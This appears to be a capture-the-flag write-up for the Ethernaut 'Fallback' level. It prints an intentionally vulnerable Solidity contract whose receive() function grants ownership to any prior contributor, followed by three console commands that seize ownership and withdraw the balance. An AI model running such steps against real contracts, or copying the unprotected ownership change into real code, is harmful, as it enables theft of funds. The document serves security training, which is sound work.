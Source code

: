 # Fallback 

## Challenge statement

```
Look carefully at the contract's code below.

You will beat this level if

- you claim ownership of the contract
- you reduce its balance to 0

Things that might help

- How to send ether when interacting with an ABI
- How to send ether outside of the ABI
- Converting to and from wei/ether units (see help() command)
- Fallback methods
```

## Breakdown

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0; // 0.6.x version

import '@openzeppelin/contracts/math/SafeMath.sol'; // OpenZeppelin SafeMath library

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions; // mapping for address contributions to uint, public for all to view
  address payable public owner; // owner variable, type payable address (can send/receive eth), others can view it

  constructor() public {
    owner = msg.sender; // owner of contract is msg.sender (creator)
    contributions[msg.sender] = 1000 * (1 ether); // set msg.sender to have 1000 * (1 ether)
  }

  // set so only the owner address can proceed
  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether); // must be less than 0.001 ether to work
    contributions[msg.sender] += msg.value; // increment contributions value by msg.value
    if(contributions[msg.sender] > contributions[owner]) { // if the contributions of sender are greater than owner, change owner to sender
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) { // view contribution of of the sender address
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner { // only the owner can withdraw
    owner.transfer(address(this).balance);
  }

  receive() external payable { // another function to change the owner, if the msg.value > 0 and the contributions of the sender are >0, change owner
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

## Solution

This challenges consists of understanding:
- How to interact with the contract 
- How fallback functions work

The goal of the exercise is to transfer ownership of the contract. From reading the code, this is possible by either sending more than 1000 ETH in <0.001 increments or triggering the receive() fallback function.

The simplest method is to trigger the receive() fallback function. For the conditions of receive() to be met, some ether must be sent and the sender must have already contributed some ether.

### Step 1: Contribute <0.001 ether to contract

await contract.contribute({value: toWei("0.0000001")})

### Step 2: Trigger receive() function

await contract.sendTransaction({from: player, to: contract.address, value: toWei("0.0000000001")
})

## Step 3: Withdraw ether

await contract.withdraw();


